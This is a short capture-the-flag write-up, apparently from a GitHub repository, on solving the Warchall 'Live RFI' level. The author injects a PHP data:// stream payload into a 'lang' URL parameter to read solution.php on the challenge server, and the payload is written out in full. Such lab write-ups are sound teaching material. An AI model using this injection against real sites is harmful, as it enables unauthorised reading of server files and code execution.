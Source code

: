 # Level 15 :
---
# _Warchall : Live RFI_
---
---
In this level 15 of this chapiter RFI, it's a little bit the same concept as the level 14 (FLI). In this case I choose to do some reseach on RFI (Remote File Inclusion) vulnerability and find a way ho to solve the problem.

We use the same principe as the level 14. So, we play first with the url of the web site as we did in level14. So after clicking the flag on the web site I tryed to type ```https://rfi.warchall.net/index.php?lang=solution.php```and got a message saying <<_NOTHING HERE????_>>.
So I read some documentation.

In this level, we will use what is called "_data stream_".
The main syntax is : ```htpps://..../data://text/plain,<?php echo "command" ?>```
So here, our command will be ```file_get_contents("solution.php")```
So in the URL do this following instruction :
```https://rfi.warchall.net/index.php?lang=data://text/plain,<?php echo file_get_contents("solution.php"); ?>```
Then, view the source code of this page. There you go ! Did it!
